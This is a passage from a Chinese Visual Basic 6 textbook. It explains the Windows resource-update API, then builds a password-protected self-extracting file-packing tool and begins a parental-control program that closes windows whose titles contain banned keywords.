函数的返回值为 Long，返回由 UpdateResource 函数用于更新文件资源的一个句柄。为了对可执行文件或 DLL 中的资源进行更新，可以首先调用 BeginUpdateResource 函数，然后为准备修改的每个资源都调用一次 UpdateResource，最后用 EndUpdateResource 关闭资源，以便结束更新操作。

还剩最后一个函数 EndUpdateResource。它的功能是终止在可执行文件中的资源更新。其 API 函数声明为：

```vb
Declare Function EndUpdateResource Lib "kernel32" Alias "EndUpdateResourceA" (ByVal hUpdate As Long, ByVal fDiscard As Long) As Long
```

其中的两个参数：

| 参数 | 类型及说明 |
|---|---|
| hUpdate | 用于资源更新的句柄。此句柄通过 BeginUpdateResource 函数返回。 |
| fDiscard | 用来说明是否向可执行文件中写入资源更新内容。如果此参数为 TRUE，则在可执行文件中无变化；如果此参数为 FALSE，则在可执行文件中写入变化。 |

好了，下面来示例使用三个函数改写可执行文件的资源。之前我们的示例中，将一首“突然好想你.wma”作为 101 号资源放在了一个程序中，现在我们把程序生成可执行的 Exe 文件，命名为“需要更新资源的程序.exe”，作为需要修改资源的程序，并把这个程序放在我们新建的工程的根目录下面。下面设法把“需要更新资源的程序.exe”中的“突然好想你.wma”修改成为“离歌.wma”。

新建一个工程，写入下面的代码：

```vb
Option Explicit
' 下面声明三个需要使用的 API 函数声明
Private Declare Function BeginUpdateResource Lib "kernel32" Alias "BeginUpdateResourceA" (ByVal pFileName As String, ByVal bDeleteExistingResources As Long) As Long
Private Declare Function UpdateResource Lib "kernel32" Alias "UpdateResourceA" (ByVal hUpdate As Long, ByVal lpType As String, ByVal lpName As Long, ByVal wLanguage As Long, lpData As Any, ByVal cbData As Long) As Long
Private Declare Function EndUpdateResource Lib "kernel32" Alias "EndUpdateResourceA" (ByVal hUpdate As Long, ByVal fDiscard As Long) As Long

Private Sub Form_Load()
    Dim ResHandle As Long
    ResHandle = BeginUpdateResource(App.Path & "\需要更新资源的程序.exe", False)

    Dim NewFileByte() As Byte
    Dim LenNewFile As Long
    Open App.Path & "\离歌.wma" For Binary As #1
    ReDim NewFileByte(0 To LOF(1) - 1) As Byte
    Get #1, , NewFileByte
    LenNewFile = LOF(1)
    Close #1

    UpdateResource ResHandle, "CUSTOM", 101, 2052, NewFileByte(0), ByVal LenNewFile
    EndUpdateResource ResHandle, False
End Sub
```

在运行上面的代码之前，我们打开程序目录下的“需要更新资源的程序.exe”，它会在目录下生成一个“测试文件.wma”，打开之后，听到的是“突然好想你”这首歌。运行上面的代码之后，我们会发现文件的大小已经改变。若运行“需要更新资源的程序.exe”，在目录下生成的“测试文件.wma”实际上已经变成了另一首歌“离歌.wma”。

> 说明：

- 第一，程序“需要更新资源的程序.exe”实质上是一个资源输出程序，它会将自身的101号自定义资源输出到程序目录，命名为“测试文件.wma”。
- 第二，上面编写的代码可以实现将101号自定义资源改变，原先的资源为“突然好想你.wma”，而现在我们将它变成了“离歌.wma”。然而，资源输出文件所输出的文件名不会改变，依旧是“测试文件.wma”，这一点请读者朋友们注意。

掌握了改写可执行文件资源的方法，我们可以利用它来进行文件和文件夹的加密。这种加密方式的特点是可移植性强，可以移动到任何安装 Windows 的计算机上进行解密。另外，无论加密多少个文件，10个文件还是100个文件，所生成的都将是一个 Exe 文件。这难道不让人心动吗？那么，请看接下来这个小节的内容吧！

## 6.7 改写资源文件实现另类文件和文件夹加密

该文件加密程序实现的基本原理是在一个 Exe 文件中预先加入102个几乎空白的资源，然后将需要加密的文件动态改写到这个 Exe 文件中。举例来说，如果我们需要加密2个文件，那么首先应该改写 Exe 的101号资源，在101号资源中写入文件的列表；然后改写102号资源，将用户设置的密码经过 MD5 加密后放入102号资源文件；接着顺序改写103号资源和104号资源，将这两个原始文件写入资源中。这个 Exe 文件具有自释放的功能，当用户输入的密码经过校验等于102号资源中保存的密码时，就依照101号资源中的文件列表依次释放出来。

这个程序由两部分组成，一部分用于被改写和释放自身的文件，一部分用于改写资源和写入密码的主程序。首先介绍被改写和自释放程序的编写。

### 6.7.1 自释放程序的编写

该程序拥有102个资源，它们的功能是：保存文件列表在101号资源中，保存经过 MD5 加密后的密码在102号资源中，和保存文件在103号资源及后续标识“号”的资源中。该程序具有自释放功能，当校验到用户输入的密码正确时，则会依据101号资源中的文件列表依次释放出文件来。下面来看具体的编码。

新建一个工程，绘制一个 ListBox 控件（用于保存文件列表）、绘制一个 TextBox（用于让用户输入密码）、一个 Timer 控件（用于延时输出文件，Interval 设置为200，Enabled 属性设置为 False）、若干 Label（用于文字提示）。窗体的基本布局如图6-13所示。

图中的背景效果是用图片实现的，直接将 Form1 窗体的 Picture 属性设置成对应的图片即可。List1 的功能是加载101号资源中的文件列表。

首先为程序添加102个几乎空白的资源文件。我们可以新建一个文本文档1.txt，在里面写入几个字符后保存，然后不断地复制并粘贴，直到文件的总个数达到102个。在“VB资源编辑器”中添加自定义资源文件，选中我们的这102个文件即可完成添加过程，如图6-14所示。

第六章 综合应用

> **注意：** 我们所添加的资源文件大小不应该为0字节，也就是说，完全没有字节的文件添加到资源文件是不起作用的。

在窗体的通用部分进行如下的函数和变量声明：

```vb
Option Explicit                      ' 强制变量声明
' 发送消息函数
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long

' 用于设置窗体在最上层
Private Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal X As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long

' 将窗体置于最上层的常数
Private Const HWND_TOPMOST = -1      ' 设置最上层
Private Const SWP_NOSIZE = &H1        ' 设置不改变大小
Private Const SWP_NOMOVE = &H2        ' 设置不移动位置

Dim LoadPass As String                ' 保存用户设置的密码，在101号资源中
Dim InputTimes As Integer             ' 输入密码的次数，3次错误程序退出
Dim FileOutPutCount As Integer        ' 已经输出的文件个数
```

上面声明了一个变量 `InputTimes`，用于保存用户输入密码的次数，如果输入错误的次数达到3次，则自动退出，防止暴力破解。在窗体的载入事件中，我们取得101号资源中的密码：

```vb
Private Sub Form_Load()
    ' 将窗体置于最上层
    SetWindowPos Me.hwnd, HWND_TOPMOST, 0, 0, 0, 0, SWP_NOSIZE Or SWP_NOMOVE
    LoadPass = StrConv(LoadResData(101, "CUSTOM"), VBUnicode)   ' 得到用户设置的密码
End Sub
```

在上面的代码中，`LoadResData(101, "CUSTOM")` 可以返回101号自定义资源中的内容，它是以系统缺省码保存的，而 `StrConv(LoadResData(101, "CUSTOM"), VBUnicode)` 的作用则是根据系统的缺省码页将字符串转成 Unicode，如果不使用 `StrConv` 函数，则取得的值并不是其实际内容。

当用户在 `Text1` 中输入密码，并按下回车键，程序开始判断密码是否正确，并决定是否开始输出文件：

```vb
Private Sub Text1_KeyDown(KeyCode As Integer, Shift As Integer)
    If KeyCode = 13 Then                                  ' 当用户按下回车键
        If Md5_String_Calc(Text1.Text) = Md5_String_Calc(LoadPass) Then   ' 密码输入正确
            Dim thisline As String                        ' 变量，临时字符串
            ' 获取需要释放的文件列表，输出到一个文件
            Open App.Path & "\filelist.temp" For Output As #1
            ' 输出到文件 filelist.temp
            Print #1, StrConv(LoadResData(102, "CUSTOM"), VBUnicode)
            Close #1

            ' 再从 filelist.temp 中读入列表到 List1
            Open App.Path & "\filelist.temp" For Input As #1
            List1.Clear                                    ' 清除List1中的内容
            While Not EOF(1)                              ' 循环读入到List1中
                Line Input #1, thisline
                List1.AddItem thisline
            Wend
            Close #1

            Kill App.Path & "\filelist.temp"              ' 删除列表临时文件

            ' 下面开始输出文件
            Timer1.Enabled = True
            LabelMsg.Caption = "正在输出文件，请等待......"
        Else                                              ' 若密码输入错误
            LabelMsg.Caption = "Error: 对不起，您输入的密码错误！"
            InputTimes = InputTimes + 1                   ' 输入密码的次数增加1
        End If
        If InputTimes >= 3 Then End                       ' 如果输入密码错误的次数大于等于3，则退出程序
    End If
End Sub
```

请读者朋友们注意，上面的代码中，`Md5_String_Calc` 是一个函数，它用于计算字符串的 MD5 值，被放在了一个通用模块中，限于代码太长，不便给出，读者朋友们可以参考一下附带的源代码。当然，作为一个通用的模块，读者朋友们亦可以不知道其加密算法的实现，仅仅是调用该函数即可。该函数只有一个参数，即原始的字符串，函数的返回值是加密后的字符串。使用 `Md5_String_Calc(Text1.Text) = Md5_String_Calc(LoadPass)` 就可以判断用户输入的密码和设置的密码是否匹配。从上面的代码可以看出，当我们输入正确的密码时，Timer1 开始工作，我们来为它的 Timer 事件添加代码：

```vb
Private Sub Timer1_Timer()
    On Error Resume Next                          ' 由于权限问题，可能会出错，容错
    If FileOutPutCount < List1.ListCount Then    ' 输出文件的个数小于总文件数
        LabelMsg.Caption = "正在输出文件 " & List1.List(FileOutPutCount)   ' 状态提示
        Dim FileCode() As Byte                    ' 声明 Byte 数组保存文件字节
        FileCode = LoadResData(103 + FileOutPutCount, "CUSTOM")            ' 取得第 103+FileOutPutCount 号资源
        Open App.Path & "\" & List1.List(FileOutPutCount) For Binary As #1
        Put #1, , FileCode                        ' 将文件字节输出到文件
        Close #1
    Else
        LabelMsg.Caption = "文件输出完毕"
        Timer1.Enabled = False
        Unload Me                                 ' 卸载窗体
        End
    End If
    FileOutPutCount = FileOutPutCount + 1         ' 输出文件数增加1
End Sub
```

到此，用于输出和被改写的程序就编写完毕了，这里只贴出了关键代码，剩余部分代码请参考源文件。

我们将上面的程序生成可执行文件，把它用于接下来需要编写的主程序。

### 6.7.2 编写用于加密的主程序

首先将用于输出和被改写的程序释放出来，然后将用户选择的文件列表写入被改写文件中，接着写入用户设置的密码到被改写文件中，再依次把需要加密的文件写入被改写文件。

第六章 综合应用

新建一个工程，在窗体中绘制控件，基本布局如图6-15所示。主要的几个控件分别为四个 ListBox（其中 List2、List3 和 ListFolder 并没有呈现给用户）、两个 TextBox（用于输入和确认输入）、4个 Timer 控件。我们在窗体的通用部分进行一些函数和变量的声明：

图6-15 控件的基本布局

```vb
Option Explicit
' 消息发送函数
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
' 用于设置窗体在最上层
Private Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal X As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long

' 将窗体置于最上层的常数
Private Const HWND_TOPMOST = -1      ' 设置为最上层
Private Const SWP_NOSIZE = &H1        ' 不改变大小
Private Const SWP_NOMOVE = &H2        ' 不改变位置

Dim ListData As String                ' 文件列表信息
Dim FileAddCount As Integer           ' 已经添加的文件数目
Dim FileRndNum As Integer             ' 多次加密产生不同的文件名
Dim BusyYesNo As Boolean              ' 程序是否正忙，加密大文件夹时不致卡死
Dim UserPath As String                ' 用户选择的加密后文件输出路径
```

当程序加载时，将自己设置为窗体的最上层：

```vb
Private Sub Form_Load()
    ' 将窗体置于最上层，不改变大小和位置
    SetWindowPos Me.hwnd, HWND_TOPMOST, 0, 0, 0, 0, SWP_NOSIZE Or SWP_NOMOVE
End Sub
```

由于这个程序是让用户将需要加密的文件全部拖到程序的 List1 中，因此应该在 List1 的 OLEDragDrop 事件中添加相应的代码：

```vb
Private Sub List1_OLEDragDrop(Data As DataObject, Effect As Long, Button As Integer, Shift As Integer, X As Single, y As Single)
    Dim I As Integer                   ' 计数的变量
    For I = 1 To Data.Files.Count      ' 循环添加文件名到 List1 中
        List1.AddItem Data.Files.Item(I)
    Next I
End Sub
```

运行后，当我们将文件拖入 List1 时，它们的完整路径会被加入到列表中，如图6-16所示。单击“开始加密”按钮，会判断用户的输入，若输入无误，开始加密过程，我们为 Command1 的单击事件添加如下代码：

图6-16 直接将文件拖入 List1

```vb
Private Sub Command1_Click()
    FileAddCount = 0                  ' 初始写入了0个文件资源
    ListData = VBNullString           ' 列表信息初始为空

    If List1.ListCount > 0 Then
        ' 输入的密码不一致
        If TextPass.Text <> TextPass2.Text Or TextPass.Text = "" Or TextPass.Text = "" Then
            Me.Visible = False
            MsgBox "密码输入有误，两次输入的密码必须相同且不为空", VBInformation, Me.Caption
            Me.Visible = True
        Else
            Dim MyBrowseInfo As BROWSEINFO
            ' 设置结构体
            With MyBrowseInfo
                .hOwner = Me.hwnd
                .lpszTitle = "请选择您需要输出加密文件的文件夹"
                .pidlRoot = 0&
                .ulFlags = BIF_RETURNONLYFSDIRS
            End With

            Dim pidl As Long
            pidl = SHBrowseForFolder(MyBrowseInfo)
            UserPath = Space(255)
            SHGetPathFromIDList ByVal pidl, ByVal UserPath
            UserPath = Left(UserPath, InStr(UserPath, Chr(0)) - 1)
            CoTaskMemFree pidl

            If UserPath = VBNullString Then
                Me.Visible = False
                MsgBox "对不起，您必须选择一个输出文件夹", VBInformation, Me.Caption
                Me.Visible = True
                Exit Sub
            End If

            LabelState.Caption = "程序状态：正在为您预处理列表信息......"
            Command1.Enabled = False
            Timer1.Enabled = True
        End If
    Else
        Me.Visible = False
        MsgBox "您还没有选中任何文件，请选择或拖入文件", VBInformation, Me.Caption
        Me.Visible = True
    End If
End Sub
```

上面的代码中为什么在每次使用 MessageBox 函数给出提示之前都需要将窗体的 Visible 属性设置成 False 呢？这是因为我们将窗体设置在了最上层，如果不隐藏，而是直接给出消息提示，则提示框本身是位于窗体下面的，这样显然不妥当。

以上代码中，我们使用到了 `SHBrowseForFolder` 函数，它可以让用户选择一个文件夹，并返回路径给程序本身，其作用如图6-17所示。

此函数之前未做介绍，读者朋友们可以不必深究。如果感兴趣，亦可在网上查找相关的资料，它的使用方法并不复杂。

函数的 API 声明和结构定义是放在一个标准模块中的，名字为“UserPathModule”：

图6-17 使用 SHBrowseForFolder 函数选择文件夹

```vb
Option Explicit

' BrowseInfo 结构体
```

# 第六章 综合应用

```vb
Public Type BROWSEINFO
    hOwner          As Long
    pidlRoot        As Long
    pszDisplayName  As String
    lpszTitle       As String
    ulFlags         As Long
    lpfn            As Long
    lParam          As Long
    iImage          As Long
End Type

' 需要使用的常数
Public Const BIF_RETURNONLYFSDIRS = &H1
Public Const BIF_DONTGOBELOWDOMAIN = &H2
Public Const BIF_STATUSTEXT = &H4
Public Const BIF_RETURNFSANCESTORS = &H8
Public Const BIF_BROWSEFORCOMPUTER = &H1000
Public Const BIF_BROWSEFORPRINTER = &H2000
Public Const MAX_PATH = 260

' 从IDList返回路径
Public Declare Function SHGetPathFromIDList Lib "shell32.dll" Alias "SHGetPathFromIDListA" (ByVal pidl As Long, ByVal pszPath As String) As Long

' 浏览文件夹
Public Declare Function SHBrowseForFolder Lib "shell32.dll" Alias "SHBrowseForFolderA" (lpBrowseInfo As BROWSEINFO) As Long

' 释放缓存
Public Declare Sub CoTaskMemFree Lib "ole32.dll" (ByVal pv As Long)
```

上面的代码都放在同一模块中，它可以被程序中的其他任何窗体和模块调用。可以看出，在 Command1 中的单击事件中，有使用到 Timer1，因此我们来看为 Timer1 编写的代码：

```vb
Private Sub Timer1_Timer()
    ' 处理List1中的信息。处理完后加入List2，之后再对List2进行处理加入List3
    ' 首先对List1中的文件夹进行处理，将其中的文件加入List2中。
    Dim I As Integer                       ' 循环计数变量
    For I = 0 To List1.ListCount - 1      ' 加入列表2
        Call AddFilesToList2(List1.List(I))   ' 调用自定义函数AddFilesToList2
    Next

    While ListFolderTemp.ListCount > 0    ' 处理文件夹临时列表中的文件夹
        ' 添加临时列表第一个文件夹中的文件
        Call AddFilesToList2(ListFolderTemp.List(0))
        ListFolderTemp.RemoveItem 0       ' 移除第一个文件夹
    Wend

    ' 上面获取了所有的文件列表到List2中
    ' 下面对文件进行处理，去除前面几个相同的字符
    ' 如果文件数超过100，提醒用户选择操作
    If List2.ListCount > 100 Then
        Dim MsgRet
        Me.Visible = False
        MsgRet = MsgBox("文件数超过100，是只加密前100个文件吗？", VBQuestion + VBOKCancel, Me.Caption)
        Me.Visible = True
    End If
End Sub
```

```vb
If MsgRet = VBOK Then                      ' 用户选择了只加密前100个文件
    While List2.ListCount > 100
        List2.RemoveItem List2.ListCount - 1   ' 依次移除超过100项的其他项目
    Wend
Else                                        ' 选择了取消按钮
    Timer1.Enabled = False
    Exit Sub
End If

ListData = vbNullString                     ' 清空ListData中的内容

If List2.ListCount >= 2 Then               ' 列表中至少有两个项目，去除相同的父目录
    Dim SameYesNo As Boolean                ' 是否相同
    SameYesNo = True                        ' 默认相同
    Dim Pos As Integer                      ' 用于定位前Pos个字符是否相同
    Pos = 0                                 ' 从零开始
    While SameYesNo = True                  ' 循环直到左边的Pos个字符不相同
        Pos = Pos + 1
        For I = 1 To List2.ListCount - 1
            If Left(List2.List(0), Pos) <> Left(List2.List(I), Pos) Then
                SameYesNo = False           ' 不相同
                Exit For
            End If
        Next I
    Wend

    ' 此时前Pos-1个字符是相同的，我们要将其过滤掉
    If Pos > 1 Then                         ' 如果含有相同的字符
        For I = 0 To List2.ListCount - 1    ' 只取不同的字符
            List3.AddItem Right(List2.List(I), Len(List2.List(I)) - Pos + 1)
        Next I
    Else                                    ' 没有相同的字符，则只截取文件名
        For I = 0 To List2.ListCount - 1
            Dim fso, FileBaseName As String, ToAddFile
            Set fso = CreateObject("scripting.filesystemobject")
            Set ToAddFile = fso.getfile(List2.List(I))
            List3.AddItem ToAddFile.Name    ' 只添加文件名到List3中
        Next I
    End If
Else                                        ' 列表中只有一个项目，直接添加文件名
    Set fso = CreateObject("scripting.filesystemobject")
    Set ToAddFile = fso.getfile(List2.List(0))
    List3.AddItem ToAddFile.Name
End If

For I = 1 To List3.ListCount - 1            ' 获取文件的列表到变量ListData，启动Timer2
    ListData = ListData & List3.List(I - 1) & Chr(13) & Chr(10)
Next
ListData = ListData & List3.List(List3.ListCount - 1) & Chr(0)
Timer2.Enabled = True
Timer1.Enabled = False
End Sub
```

上面的代码看似比较麻烦，它所实现的功能是将用户选择的文件和文件夹进行分析和过滤。用户的原始选择都是放在 List1 中，然后枚举 List1 中文件夹里的文件，将得到的所有文件都添加到 List2 中。例如，我们选择了一个文件夹 `C:\Windows` 和文件 `C:\1.txt`，那么 List1 中的内容将会是：

- `C:\Windows`
- `C:\1.txt`

而经过处理，List2 中的内容将会是：

- `C:\Windows\Explorer.exe`
- `C:\Windows\System32\Cmd.exe`
- `......`
- `......`
- （包括了 Windows 文件夹中的所有文件，子文件夹中的文件同时被包括）
- `......`
- `......`
- `C:\1.txt`

上面代码中 ListFolderTemp 的作用是保存用户所选择文件夹的子文件夹，使用这个 ListFolderTemp 列表，其实完成了一个递归的调用，可以列出一个文件夹中的所有文件。使用此方法，我们可以列出一个文件夹，甚至一个磁盘中的所有文件，它采用的也是递归的方法。

下面来看 Timer2 中的代码：

```vb
Private Sub Timer2_Timer()
    LabelState.Caption = "程序状态：正在准备解密文件...."
    ' 开始释放需要被改写资源的文件
    ' 判断已经存在的加密后的文件
    FileRndNum = 1            ' 从1开始判断
    ' 文件存在，则继续循环
    While Dir(UserPath & "\已加密文件" & FileRndNum & ".exe") <> vbNullString
        FileRndNum = FileRndNum + 1
    Wend

    ' 输出需要被改写的文件
    Open UserPath & "\已加密文件" & FileRndNum & ".exe" For Binary As #1
    Dim ByteOut() As Byte
    ByteOut = LoadResData(101, "CUSTOM")
    Put #1, , ByteOut
    Close #1

    ' 首先向被改写的文件写入列表，到102号资源
    ReDim ByteOut(0 To Len(StrConv(ListData, vbFromUnicode)) * 2 - 1)
    ByteOut = StrConv(ListData, vbFromUnicode)
    UpdateRes UserPath & "\已加密文件" & FileRndNum & ".exe", 102, ByteOut(), Len(StrConv(ListData, vbFromUnicode)) * 2

    ' 再写入用户定义的密匙，到101号资源
    Dim bytepass() As Byte
    ReDim bytepass(0 To Len(Md5_String_Calc(TextPass.Text)) - 1)
    bytepass = StrConv(Md5_String_Calc(TextPass.Text), vbFromUnicode)
    UpdateRes UserPath & "\已加密文件" & FileRndNum & ".exe", 101, bytepass(), Len(Md5_String_Calc(TextPass.Text))

    Timer2.Enabled = False
    Timer3.Enabled = True
End Sub
```

上面代码中，我们首先将需要被改写的文件，也就是之前编写的那个可以进行自释放的文件从主程序中释放出来，然后将文件列表和密匙依次写入到被改写的文件中。

Timer3 的功能是依次写入文件到被改写文件中：

```vb
Private Sub Timer3_Timer()
' 解释：这里是同步操作。必须是文件加密完成之后Timer4才会启用，也才会改变BusyYesNo的值
If BusyYesNo = False Then
    BusyYesNo = True
    ' 如果文件路径的长度大于20，则取出后面的20个字符
    LabelState.Caption = "程序状态：正在加密文件 " & IIf(Len(List2.List(FileAddCount)) > 20, "..." & Right(List2.List(FileAddCount), 20), List2.List(FileAddCount))
    If FileAddCount < List3.ListCount Then
        Open List2.List(FileAddCount) For Binary As #1
        Dim ByteInput() As Byte
        ReDim ByteInput(0 To LOF(1) - 1) As Byte
        Dim FileLength As Long
        FileLength = LOF(1)
        Get #1, , ByteInput
        Close #1
        UpdateRes UserPath & "\已加密文件" & FileRndNum & ".exe", 103 + FileAddCount, ByteInput(), FileLength
    Else
        Timer3.Enabled = False
        Me.Visible = False
        MsgBox "文件加密完毕，在 " & UserPath & "\下的 已加密文件" & FileRndNum & ".exe 中", vbInformation, Me.Caption
        LabelState.Caption = "程序状态：所有加密操作都已完成，文件生成在当前目录下"
        Command1.Enabled = True
        Me.Visible = True
        List2.Clear
        List3.Clear
        ListFolderTemp.Clear
    End If
    FileAddCount = FileAddCount + 1
    Timer4.Enabled = True
End If
End Sub
```

Timer4 是用来延时的，当我们写入一个文件时，BusyYesNo 变量的值为 True，而当写入文件完毕，执行 Timer4 中代码，BusyYesNo 变量的值变为 False，就可以继续写入下一个文件：

```vb
Private Sub Timer4_Timer()
    BusyYesNo = False
    Timer4.Enabled = False
End Sub
```

这样，4 个 Timer 控件的代码就介绍完了。但是，上面代码中用到的几个自定义函数还没有介绍完全。

新建一个标准模块，命名为“AddFolderFilesModule”，写入下面的代码：

```vb
Option Explicit

Dim fso
Dim folder1
Dim Folder1File
Dim Folder1Folder

' 添加文件夹中的所有文件到列表2中
Public Function AddFilesToList2(ByVal lFolder As String) As Boolean

    Set fso = CreateObject("scripting.filesystemobject")   ' 建立Fso对象

    If fso.folderexists(lFolder) Then                       ' 首先判断该文件夹是否存在
        Set folder1 = fso.getfolder(lFolder)                ' 返回文件夹对象
        ' 文件添加到列表2，而文件夹则添加到列表1，类似于递归操作
        For Each Folder1File In folder1.Files
            Form1.List2.AddItem Folder1File                 ' 文件添加到List2
        Next

        For Each Folder1Folder In folder1.subfolders
            Form1.ListFolderTemp.AddItem Folder1Folder      ' 文件夹添加到List1
        Next

    ElseIf fso.fileexists(lFolder) Then                     ' 该文件夹不存在，则直接添加到List2
        Form1.List2.AddItem lFolder
    End If

End Function
```

UpdataRes 是我们自定义的一个函数，它位于标准模块“UpdataResourceModule”：

```vb
Option Explicit
' API函数声明
Public Declare Function BeginUpdateResource Lib "kernel32" Alias "BeginUpdateResourceA" (ByVal pFileName As String, ByVal bDeleteExistingResources As Long) As Long
Public Declare Function UpdateResource Lib "kernel32" Alias "UpdateResourceA" (ByVal hUpdate As Long, ByVal lpType As String, ByVal lpName As Long, ByVal wLanguage As Long, lpData As Any, ByVal cbData As Long) As Long
Public Declare Function EndUpdateResource Lib "kernel32" Alias "EndUpdateResourceA" (ByVal hUpdate As Long, ByVal fDiscard As Long) As Long

Public Function UpdataRes(ByVal lFileName As String, ByVal ResNumber As Long, DataToWrite() As Byte, ByVal DataLength As Long) As Boolean

    Dim hRes As Long                                         ' 保存资源的句柄
    hRes = BeginUpdateResource(lFileName, False)             ' 获取文件资源的句柄
    ' 改写资源
    UpdateResource hRes, "CUSTOM", ResNumber, 2052, DataToWrite(0), DataLength
    EndUpdateResource hRes, False
End Function
```

UpdataRes 是我们的自定义函数，它的参数 lFileName 表示文件的完整路径，参数 ResNumber 表示资源的标识号，参数 DataToWrite 表示需要改写进去的字节数组，参数 DataLength 表示需要改写进去的数据的字节长度。

### 6.7.3 总结

到此，我们的文件加密工具就编写结束了。由于程序的代码量相对来说比较大，需要进行的操作也较多，因此大家理解起来可能会有一些难度。我给读者朋友们的建议是，先把光盘中提供的代码看上两遍，再来看书上介绍的内容。该程序还可以完善，希望读者朋友们在看了示例之后可以写出属于自己的更强大的文件加密工具。

## 6.8 用 VB 实现屏蔽非法关键词

在一些程序中需要对特定的关键词进行屏蔽，例如网吧管理软件通常会对“网吧破解”类的关键词进行屏蔽，而家长控制软件则需要对不利于青少年身心健康的内容进行屏蔽。此类屏蔽的方式通常是枚举窗口标题或获取用户正在浏览窗口的内容。如果发现关键词，则关闭之。使用 VB 可以较容易地实现相关监控功能。

### 6.8.1 程序实现的原理

程序定时枚举系统顶级窗口，如果在这些窗口中发现了非法关键词，则将其关闭。再者，若用户正在浏览网页，则获取网页的源代码，在代码中发现关键词，同样关闭之。非法的关键词可以经过简单处理后放入数据库中，程序每次运行的时候从数据库中读取这些关键词，然后加入一个列表框中。当发现用户正在浏览一个 HTTP 页面时，则可以使用 Internet Transfer 控件获取网页源代码，判断是否存在关键词。


图6-18　非法关键词简单处理后写入数据库

### 6.8.2 编程实现

第一步，将非法关键词写入数据库，这里不能写入明文，至少需要经过简单的处理。如图6-18所示，我取了每个字的 ASCII 码，中间用逗号隔开。例如 ID 为 113 的这一项，它就是“色情网站”这四个字经过处理后的结果。

从图6-18可以看出，表的名称为 ParentsControl，其中存放非法关键词的字段是 NotAllowedWords，这个在后面加入关键词的时候需要用到。


图6-19　控件的基本布局

控件的基本布局如图6-19所示，需要用到一个 listbox（用来列出系统顶级窗口），一个 combo（用于列出非法的关键词），一个 adodc（用于连接数据库），一个 inet 控件（用于获取用户浏览的网页源代码），一个 timer（定时刷新及监控）。

在窗体的载入事件中添加相应代码还原出关键字并加入 combo 中：

```vb
Private Sub Form_Load()
    Dim stemp
    AdodcParentsControl.ConnectionString = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\BingKeAntiVirus.mdb" & ";Persist Security Info=False"
    AdodcParentsControl.RecordSource = "select * from ParentsControl"
    AdodcParentsControl.Refresh

    ' StrInput 为数据库中的字符串，StrOutput 是转换后得到的字符串
    Dim StrInput As String, StrOutput As String
    While Not AdodcParentsControl.Recordset.EOF
        ' 取得 NotAllowedKeyWords 字段的值
        StrInput = AdodcParentsControl.Recordset.Fields("NotAllowedKeyWords").Value
        StrOutput = ""
        While InStr(StrInput, ",")
            stemp = Mid(StrInput, 1, InStr(StrInput, ",") - 1)
            StrOutput = StrOutput & Chr(Int(stemp))
            StrInput = Right(StrInput, Len(StrInput) - InStr(StrInput, ","))
        Wend

        ComboParentsControl.AddItem StrOutput    ' 在 combo 中添加关键词
        AdodcParentsControl.Recordset.MoveNext   ' 记录移到下一条
    Wend
End Sub
```

我们首先来枚举系统顶级窗口，新建一个模块，在模块中使用 EnumWindows 函数来枚举窗口，通用部分的代码为：

```vb
Option Explicit    ' 强制变量声明
' 下面是 API 函数声明
' 枚举窗体函数 EnumWindows
Public Declare Function EnumWindows Lib "user32" (ByVal lpEnumFunc As Long, ByVal lParam As Long) As Long
' 获取句柄窗口的标题
Public Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
' 发送消息函数，用于关闭非法窗口
Public Declare Function PostMessage Lib "user32" Alias "PostMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
Public Const WM_CLOSE = &H10    ' 消息常数
Public StrTitlAll As String      ' 声明一个字符串变量，用于存放已经枚举过的窗口标题
Dim i As Integer                 ' 用于计数
```

接下来自定义一个函数，供 EnumWindows 取址调用：

```vb
' 自定义函数，供 EnumWindows 取址调用
Public Function enumproc(ByVal hwnd As Long, ByVal lParam As Long) As Boolean
    Dim title As String * 100                 ' 分配缓存的大小
    ' title 用于存放窗口标题，StrTitlAll 存放所有的标题
    Dim len1 As Integer                       ' 用于存放标题的长度
    len1 = GetWindowText(hwnd, title, 100)    ' 返回标题的字符串长度
    title = Mid(title, 1, len1)               ' 取得标题
    If Trim(title) <> "" Then                 ' 标题不为空
        If InStr(StrTitlAll, title) Then
        Else
            Form1.List1.AddItem title         ' 标题还没有添加到 StrTitlAll，则添加到 List1 列表中
            StrTitlAll = StrTitlAll & title   ' 字符串连接到 StrTitlAll
            For i = 0 To Form1.ComboParentsControl.ListCount - 1   ' 循环判断是否存在非法关键词
                If InStr(title, Trim(Form1.ComboParentsControl.List(i))) Then
                    PostMessage hwnd, WM_CLOSE, 0, 0                ' 存在则发送消息关闭该窗口
                End If
            Next
        End If
    End If
    enumproc = True                             ' 必须返回 True，否则不会继续枚举下一窗口
End Function
```

在窗体中添加代码之前，首先应该对一些变量和函数进行声明：

```vb
Option Explicit                          ' 强制变量声明
' 获取用户最上层窗口的句柄
Private Declare Function GetForegroundWindow Lib "user32" () As Long
' 取得句柄窗口的标题
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long

Dim ForgroundWindowHwnd As Long
Dim i
```

在 Form1 中，我们将 Timer1 的 Interval 设置成 3000，也就是 3 秒钟刷新一次列表，并为它添加相应的代码：

```vb
Private Sub TimerParentsControl_Timer()
    StrTitlAll = ""
    List1.Clear
    EnumWindows AddressOf enumproc, 0
    Dim IEwindow As New ShellWindows
    ' 如果没有打开浏览器窗口，则退出 Sub 不执行后面的语句
    If IEwindow.Count = 0 Then Exit Sub
    Dim ForeTitle As String * 200
    Dim TitleLen As Integer
    ForgroundWindowHwnd = GetForegroundWindow()
    TitleLen = GetWindowText(GetForegroundWindow(), ForeTitle, 200)
    ForeTitle = Left(ForeTitle, TitleLen)

